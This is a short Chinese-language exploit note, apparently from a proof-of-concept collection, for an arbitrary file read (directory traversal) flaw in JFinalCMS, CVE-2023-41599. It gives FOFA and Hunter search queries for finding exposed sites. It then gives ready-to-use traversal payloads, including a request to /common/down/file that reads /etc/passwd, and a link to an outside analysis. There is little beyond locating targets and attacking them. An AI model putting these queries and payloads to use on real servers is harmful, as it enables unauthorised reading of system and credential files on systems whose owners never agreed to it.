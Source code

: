 ## JFinalCMS 任意文件读取漏洞(CVE-2023-41599)


## 特征
```
fofa:
body="content=\"JreCms"

hunter:
web.body="content=\"JreCms"
```
## POC
```
Windows: /../../../../../../../../../test.txt
Linux:	/../../../../../../../../../etc/passwd

/common/down/file?filekey=/../../../../../../../../../etc/passwd
```


## 漏洞分析
http://www.so1lupus.ltd/2023/08/28/Directory-traversal-in-JFinalCMS/
